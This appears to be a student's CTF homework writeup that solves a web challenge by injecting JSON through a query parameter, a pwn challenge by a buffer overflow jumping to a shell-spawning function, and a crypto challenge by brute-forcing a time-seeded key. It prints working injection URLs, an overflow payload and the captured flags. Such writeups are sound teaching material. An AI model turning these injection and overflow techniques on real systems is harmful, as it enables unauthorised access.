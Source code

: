 # HW0 writeup

## Web - owoHub
> FLAG{owo_ch1wawa_15_th3_b35t_uwu!!!}

1. Check *source code*
   - how to get flag?
   ```js
   // but the function can't be directly access by external users
   if (givemeflag === "yes" && userInfo.admin) response.send(FLAG);
   ```
   - where can be used?
      > `app.get('/auth', (request, response) => { const { username, cute } = request.query;`
      a. only check that `cute` end with `true` or `false`
      ```js
      if (typeof username !== "string" || typeof cute !== "string" || username === "" || !cute.match("(true|false)$"))
      ```
      b. `userInfo` take `cute` from the request query directly
      ```js
      const userInfo = `{"username":"${username}","admin":false,"cute":${cute}}`;
      ```
      c. use `userInfo` define in the previous step in the url and be used to `GET` **internally**
      ```js
      const api = `http://127.0.0.1:9487/?data=${userInfo}&givemeflag=no`;
      ```
2. give a random `username` and `cute`
   `https://owohub.zoolab.org/auth?username=a&cute=true`
3. make `admin` to be true
   `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true`
   - since `userInfo` is `{"username":"${username}","admin":false,"cute":${cute}}`, by injecting `cute` previous key/value pair `"admin":false`
   - make `cute` to be `true,"admin":true`, `userInfo` will then be `{"username":"a","admin":false,"cute":true}`. That is, `{"username":"a","admin":true,"cute":false}`
4. make `givemeflag` to be `"yes"`
   1. want something like this, `https://owohub.zoolab.org/auth?username=a&cute=true,"admin":true}&givemeflag=yes#true`
      > `}` close the bracket for `useInfo` which make all the things after it not a part of `userInfo`  
      > `#` point a browser to a specific part or page but all characters after `#` will not be sent in request  
      - make `api` to be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes#true&givemeflag=no`
      - the actual request being send internally should be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes`
   2. try and get `{"error":"Whaaaat owo?"}`
      - currently, `cute` is `false,"admin":true}` so that it doesn't end with `true` or `false`
      - `cute` only take the part before the next `&`
   3. *url encoding* to bypass it
      > find the correspoding encode for `"}&#`  
      - then, the url should be `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true%7D%26givemeflag=yes%23true`

## pwn - Cafe Overflow
> flag{c0ffee_0verfl0win6_from_k3ttle_QAQ}  
> [solution](./pwn/solve.py)

1. disassemble the binary with `objdump -d -M intel CafeOverflow`
   ```nasm
   401234:	e8 17 fe ff ff       	call   401050 <printf@plt>
   401239:	48 8d 45 f0          	lea    rax,[rbp-0x10]
   40123d:	48 89 c6             	mov    rsi,rax
   401240:	48 8d 3d f6 0d 00 00 	lea    rdi,[rip+0xdf6]        # 40203d <_IO_stdin_used+0x3d>
   401247:	b8 00 00 00 00       	mov    eax,0x0
   40124c:	e8 1f fe ff ff       	call   401070 <__isoc99_scanf@plt>
   ```
   Use `scanf` to get input in the *main function* with a buffer size of `0x10`. Therefore, it's vulnerable to **buffer overflow**. Pad `0x10` characters to fill the gap and 8 more byte to overwrite `rbp` and then its our target, ***the return address***.
2. In order to get the flag, we have to open shell and read the content of the remote file, *flag*.
   ```nasm
   0000000000401176 <func1>:
   401176:	55                   	push   rbp
   401177:	48 89 e5             	mov    rbp,rsp
   40117a:	48 83 ec 10          	sub    rsp,0x10
   40117e:	48 89 c0             	mov    rax,rax
   401181:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
   401185:	48 b8 fe ca fe ca fe 	movabs rax,0xcafecafecafecafe
   40118c:	ca fe ca 
   40118f:	48 39 45 f8          	cmp    QWORD PTR [rbp-0x8],rax
   401193:	75 22                	jne    4011b7 <func1+0x41>
   401195:	48 8d 3d 68 0e 00 00 	lea    rdi,[rip+0xe68]        # 402004 <_IO_stdin_used+0x4>
   40119c:	e8 8f fe ff ff       	call   401030 <puts@plt>
   4011a1:	48 8d 3d 68 0e 00 00 	lea    rdi,[rip+0xe68]        # 402010 <_IO_stdin_used+0x10>
   4011a8:	e8 93 fe ff ff       	call   401040 <system@plt>
   4011ad:	bf 00 00 00 00       	mov    edi,0x0
   4011b2:	e8 c9 fe ff ff       	call   401080 <exit@plt>
   4011b7:	48 8d 3d 5a 0e 00 00 	lea    rdi,[rip+0xe5a]        # 402018 <_IO_stdin_used+0x18>
   4011be:	e8 6d fe ff ff       	call   401030 <puts@plt>
   4011c3:	90                   	nop
   4011c4:	c9                   	leave  
   4011c5:	c3                   	ret 
   ```
   Find a function, `fun1`, that never been called but call `system("/bin/sh")`. However, if call `func1`, it needs to fulfill certain requirement to jump to where it call `system("/bin/sh")`. Therefore, let it jump to `0x401195` directly.
3. Combine step 1 and 2.  
   `payload = 'a' * (0x10 + 8) + p64(0x401195)`

## Misc - The Floating Aquamarine
> FLAG{floating_point_error_https://0.30000000000000004.com/}

## Cryptography - 解密一下
> FLAG{4lq7mWGh93}
> [solution](./crypto/solve.py)

1. Modify source code to make it easier to read, from [encrypt.py](./crypto/encrypt.py) to [modifiedEncrypt.py](./crypto/modifiedEncrypt.py).
2. Use `time.time()` as seed for random. Therefore, by guessing around what time the [output.txt](./crypto/output.txt) is generated, the key possibility of key can be redused.
   ```python
   random.seed(int(time.time()))
   key = random.getrandbits(128).to_bytes(16, 'big')
   ```
3. Implement `decrypt` function for the corresponding `encrypt`.
   - `_encrypt`
      ```python
      def _encrypt(pts: _list[int], key: _list[int]):
         count, delta, mask = 0, 0xFACEB00C, 0xffffffff
         for _ in range(32):
            count = count + delta & mask    # delta & mask = 0xfaceb00c = 4207849484
            pts[0] = pts[0] + ((pts[1] << 4) + key[0] & mask ^ (pts[1] + count) & mask ^ (pts[1] >> 5) + key[1] & mask) & mask
            pts[1] = pts[1] + ((pts[0] << 4) + key[2] & mask ^ (pts[0] + count) & mask ^ (pts[0] >> 5) + key[3] & mask) & mask
         return pts
      ```
      Perform a certain operation 32 times on the input plaintext, adding a certain value (corresponding to `pts[1], pts[0]` and `count`) each time for `pts[0], pts[1]`. 
   - `_decrypt`
      ```python
      def _decrypt(cts, key):
         count, delta, mask = 0, 0xFACEB00C, 0xffffffff
         last = 0x59d60180
         for _ in range(32):
            cts[1] = cts[1] - ((cts[0] << 4) + key[2] & mask ^ (cts[0] + last) & mask ^ (cts[0] >> 5) + key[3] & mask) & mask
            cts[0] = cts[0] - ((cts[1] << 4) + key[0] & mask ^ (cts[1] + last) & mask ^ (cts[1] >> 5) + key[1] & mask) & mask
            last = last - delta & mask
         return cts
      ```
      Reverse `_encrypt`. Find out the last used `count`, `0x59d60180`, and perform certain operation 32 times, reversing the order of `cts[0], cts[1]` and substracting a certain value each time.
4. Guess [output.txt](./crypto/output.txt) is the result of [encrypt.py](./crypto/encrypt.py) `n` days ago. Starting from `n` days ago, start brute force :joy: .
   - Knowing that the flag has initial `flag{` or `FLAG`, stop when find a decrypted text has such initial and print out its seed and the result.

## Reverse - EekumBokum